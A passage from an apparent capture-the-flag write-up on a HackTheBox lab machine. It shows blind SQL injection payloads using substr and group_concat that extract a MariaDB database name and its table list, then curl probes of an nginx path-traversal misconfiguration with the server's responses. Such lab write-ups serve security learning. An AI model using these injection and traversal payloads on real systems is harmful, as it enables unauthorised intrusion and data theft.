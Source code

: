 ```python
        done = False
        break

    if done:
        break
# output was 10.1.45-mariadb-0+deb9u1
```

This confirms it is MySQL, and usage of `substr` instead of `substring` works. Next, find the current database:

```
'AND (substr((SELECT database()),{i},1)) = '{j}' -- -
neddy
```

Next, find the table names within this thing via `group_concat`.

```
'AND (substr((SELECT group_concat(TABLE_NAME) FROM information_schema.tables WHERE table_schema='neddy'),{i},1)) = '{j}' -- -

config,customers,employees,filepath,idname,offices,orderdetails,orders,payments,productlines,products
```

The above took forever to generate, and there were way too many tables for me to enumerate via blind injection.

### Nginx LFI --> Source Code Access

Apart from the SQL database, there was only the `/dev` endpoint. I looked to Hacktricks for `nginx` exploits, since the detailed nmap scan told me this server was running on `nginx`.

Doing the Accutenix tests returns positive results:

```
$ curl -k https://www.nestedflanders.htb/dev../                            
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>

$ curl -k https://www.nestedflanders.htb/dev.../
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
```
